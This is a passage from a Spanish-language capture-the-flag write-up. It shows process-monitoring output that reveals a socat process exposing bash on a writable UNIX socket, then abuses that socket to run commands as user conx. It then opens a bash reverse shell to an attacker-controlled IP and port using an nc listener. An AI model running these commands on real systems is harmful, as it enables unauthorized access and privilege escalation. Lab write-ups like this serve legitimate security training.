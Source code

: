 ```
2025/06/06 09:19:01 CMD: UID=0     PID=343    | 
2025/06/06 09:19:01 CMD: UID=0     PID=344    | 
2025/06/06 09:19:01 CMD: UID=0     PID=345    | 
2025/06/06 09:19:01 CMD: UID=0     PID=346    | 
^CExiting program... (interrupt)
```

Nada mas se inicie ya de primeras nos va a resaltar en naranja una cosa bastante interesante que esta en esta linea:

```
2025/06/06 09:18:36 CMD: UID=1002  PID=54     | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash
```

Por lo que vemos se esta realizando un `socat` ejecutando la `bash` como el usuario `conx`, por lo que podremos realizar lo siguiente.

```shell
ls -la /home/conx/.cache/.sock
```

Info:

```
srwxrw-rw- 1 conx conx 0 Jun  6 08:59 /home/conx/.cache/.sock
```

Vemos que tiene los permisos necesarios para ahora nosotros realizar lo siguiente:

```shell
socat - UNIX-CONNECT:/home/conx/.cache/.sock
```

Info:

```
whoami
conx
```

Ahora vamos a pasarnos una `shell` un poco mejor de esta forma:

```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

En la maquina `host` nos ponemos a la escucha antes de lanzar el comando.

```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos el comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 36954
bash: cannot set terminal process group (52): Inappropriate ioctl for device
bash: no job control in this shell
conx@30c1dad442ff:~$ whoami
whoami
conx
```

